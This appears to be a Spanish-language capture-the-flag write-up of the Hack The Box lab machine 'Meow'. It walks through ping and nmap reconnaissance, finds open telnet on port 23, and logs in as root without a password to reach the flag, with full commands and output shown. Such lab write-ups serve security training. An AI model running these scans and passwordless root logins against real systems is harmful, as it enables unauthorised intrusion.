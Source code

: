 ```yaml
---
title: Hack The Box Starting Point Meow
author: k4miyo
date: 2023-07-30
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Very Easy, Linux]
tags: [Telnet, Network, Protocols, Reconnaissance, Weak Credentials, Misconfiguration]
ping: true
---
```


## Máquina Meow
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.129.31.92.

```bash
❯ ping -c 1 10.129.31.92
PING 10.129.31.92 (10.129.31.92) 56(84) bytes of data.
64 bytes from 10.129.31.92: icmp_seq=1 ttl=63 time=82.6 ms

--- 10.129.31.92 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 82.632/82.632/82.632/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo (sistema operativo). A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.129.31.92 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-30 16:06 CST
Initiating Parallel DNS resolution of 1 host. at 16:06
Completed Parallel DNS resolution of 1 host. at 16:06, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 16:06
Scanning 10.129.31.92 [65535 ports]
Discovered open port 23/tcp on 10.129.31.92
Completed SYN Stealth Scan at 16:07, 13.26s elapsed (65535 total ports)
Nmap scan report for 10.129.31.92
Host is up, received user-set (0.074s latency).
Scanned at 2023-07-30 16:06:59 CST for 13s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
           Raw packets sent: 65865 (2.898MB) | Rcvd: 65635 (2.625MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬───────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.129.31.92
   5   │     [*] Open ports: 23
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴──────────────────────────────────
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p23 10.129.31.92 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-30 16:09 CST
Nmap scan report for 10.129.31.92
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Observamos el puerto 23 abierto asociado el servico de telnet, así que vamos a conectarnos como el usuario **root** sin proporcionar contraseña.

```bash
 telnet 10.129.31.92
Trying 10.129.31.92...
Connected to 10.129.31.92.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 30 Jul 2023 10:11:02 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.31.92
  IPv6 address for eth0: dead:beef::250:56ff:feb0:76ba

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Ya somos el usuario **root** y podemos visualizar la flag (flag.txt).
